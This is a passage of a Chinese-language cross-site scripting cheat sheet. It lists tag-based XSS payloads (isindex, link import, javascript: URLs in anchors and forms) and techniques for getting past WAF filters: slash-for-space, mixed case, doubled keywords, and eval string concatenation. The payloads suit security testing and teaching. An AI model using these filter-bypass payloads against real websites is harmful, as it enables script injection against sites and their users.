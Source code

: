 ```
<isindex type=image src=1 onerror=alert("xss")>//仅限于IE
```

### \<link>

PS：在无CSP的情况下才可以

```
<link rel=import href="http://127.0.0.1/1.js">
```

### \<a>

```
<a href="javascript:alert(`xss`);">xss</a>
```

### \<form>

```
<form action="Javascript:alert(1)"><input type=submit>
```





## Bypass

#### 过滤空格

用`/`代替空格

```
<img/src="x"/onerror=alert("xss");>
```

#### 过滤关键字

##### 大小写绕过

```
<ImG sRc=x onerRor=alert("xss");>
```

##### 双写关键字

有些waf可能会只替换一次且是替换为空，这种情况下我们可以考虑双写关键字绕过

```
<imimgg srsrcc=x onerror=alert("xss");>
```

##### 字符拼接

利用eval

```
<img src="x" onerror="a=`aler`;b=`t`;c='(`xss`);';eval(a+b+c)">
```
